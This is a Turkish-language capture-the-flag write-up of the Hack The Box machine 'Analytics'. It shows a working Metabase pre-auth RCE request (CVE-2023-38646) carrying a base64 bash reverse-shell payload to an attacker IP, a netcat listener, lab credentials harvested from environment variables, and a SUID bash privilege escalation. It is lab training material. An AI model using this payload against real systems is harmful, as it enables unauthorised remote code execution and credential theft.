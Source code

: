 ---
---

# Analytics

## User Flag

!!! info "Target IP Address"

    10.10.11.233

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
nmap 10.10.11.233 -sC -sV
```

```text title="Output" hl_lines="6 10"
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-15 14:05 +03
Nmap scan report for 10.10.11.233
Host is up (1.1s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
5904/tcp filtered ag-swim
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 949.66 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde [http://analytical.htb](http://analytical.htb) isimli bir sayfaya yönlendirildim.

Bu adresi `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts
```

Ardından Gobuster aracı ile vHost numaralandırma girişiminde bulundum:

```bash
gobuster vhost --append-domain -u analytical.htb -w /opt/useful/SecLists/Discovery/Web-Content/common.txt
```

```text title="Output" hl_lines="15"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://analytical.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /opt/useful/SecLists/Discovery/Web-Content/common.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: data.analytical.htb Status: 200 [Size: 77883]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

Burada bulunan adresi de `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.233 data.analytical.htb" | sudo tee -a /etc/hosts
```

Bu adrese gittiğimde Metabase ile ilgili bir Login sayfasıyla ([http://data.analytical.htb/auth/login](http://data.analytical.htb/auth/login)) karşılaştım:

![](../assets/images/analytics/metabase-login-page.png)

Yeni bulunan adres için Gobuster dizin numaralandırma girişiminde bulunduğumda aşağıdaki hata ile karşılaştım:

```text
Error: the server returns a status code that matches the provided options for non existing urls. http://data.analytical.htb/f08e9427-c322-4095-8b2c-4654cd7d10c5 => 200 (Length: 77894). To continue please exclude the status code or the length
```

Gobuster, geçerli olmayan bir URL ile bağlantı denemesinde bulunduğunda 200 başarı mesajı alıyor ve bu yüzden hata veriyor. Kısa bir araştırmadan sonra sunucunun bu şekilde davranacak şekilde kurulabileceğini öğrendim. Geçerli olmayan bir URL isteğinde bulunduğumuzda dahi 200 yanıtını döndürüyor.

Gobuster aracının denediği geçersiz URL adresine gidip Burp ile bu bağlantı arasına girdim. Ardından bağlantıyı birkaç kez normal şekilde Forward ettiğimde, bağlantının `api/setup/properties` dizinine uğradığını fark ettim. Kısa bir Google aramasından sonra, bu dizinde bulunan ve halka açık olarak bulunmaması gereken `setup-token` bilgisinin erişilebilir olduğunu öğrendim ([CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)).

Bu `setup-token` bilgisini aşağıdaki komut ile elde ettim:

```bash
echo $(curl -s -H "Content-Type: application/json" http://data.analytical.htb/api/session/properties | jq -r '.["setup-token"]')
```

```text title="Output"
249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```

Kullanabileceğim bir PoC için arama gerçekleştirdiğimde [bu](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) site ile karşılaştım. Bulduğum PoC kodunu kendime göre düzenledim:

```json title="PoC" hl_lines="7 20"
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 820

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

Burada Base64 ile kodlanmış olarak gözüken değer (`YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK`) reverse shell almak için kullanılacak olan payload (`bash -i >&/dev/tcp/10.10.14.45/4444 0>&1`) kodudur.

Bu PoC kodunu kullanabilmek için ilk önce [http://data.analytical.htb/auth/login](http://data.analytical.htb/auth/login) adresine gidip bağlantıyı Burp ile yakaladım. Yakaladığım bağlantıyı Burp Repeater kısmına gönderdikten sonra Request kısmını bu PoC bilgisi ile güncelledim. Send ile göndermeden önce Netcat ile 4444 numaralı port üzerinde bir dinleyici başlattım:

```bash
nc -lvnp 4444
```

Bunun ardından Send ile gönderdiğimde Netcat dinleyici üzerinde shell elde edebildim:

```text title="Output"
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.233] 55382
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
d12f07ea59fe:/$
```

Hemen arkasından shell yükseltmesi yaparak daha sağlam bir TTY elde ettim ve böylece komut çalıştırırken alınabilecek hataları en aza indirgemiş oldum.

İçinde bulunduğum dizinde herhangi bir bayrak dosyası yoktu, bu yüzden farklı denemelerde bulundum. Nihayetinde aşağıda verdiğim kod parçası beni tekrardan doğru yola soktu:

```bash
find / -name *env 2> /dev/null
```

```text title="Output" hl_lines="3"
/bin/printenv
/usr/bin/env
/usr/lib/bash/printenv
/.dockerenv
```

Arama sonuçlarından elde ettiğim bilgilerden yola çıkarak `#!bash printenv` komutunu kullandım ve bu komut bana aşağıdaki çıktıyı sağladı:

```text title="Output" hl_lines="13 14"
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=d12f07ea59fe
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
OLDPWD=/home/metabase
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
```

Elde ettiğim kullanıcı adı ve parola bilgisi ile reverse shell dışında bir SSH bağlantısı gerçekleştirdim:

```bash
ssh metalytics@analytical.htb
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
cat ~/user.txt
```

## Root Flag

Yanlış yapılandırılmış SUID etiketli çalıştırılabilir bir dosya olup olmadığını öğrenmek amacıyla aşağıdaki aramayı gerçekleştirdim:

```bash
find / -perm /4000 -exec ls -l {} \; 2> /dev/null
```

```text title="Output" hl_lines="1"
-rwsr-xr-x 1 root metalytics 1396520 Jan 15 14:38 /var/tmp/bash
-rwsr-xr-x 1 root root 40496 Nov 24  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 72072 Nov 24  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 44808 Nov 24  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 35200 Mar 23  2022 /usr/bin/fusermount3
-rwsr-xr-x 1 root root 232416 Apr  3  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 59976 Nov 24  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 72712 Nov 24  2022 /usr/bin/chfn
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

İlk bulunan sonuç çok umut vericiydi. Bu sebeple bu dosyayı, [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid) sayfasında bahsedildiği şekilde çalıştırdım (privileged mode) ve bu sayede `root` kullanıcısı olabildim:

```bash
/var/tmp/bash -p
```

Yüksek yetkilere sahip shell içerisinde aşağıdaki komut ile `root` bayrağını elde edebildim:

```bash
cat /root/root.txt
```
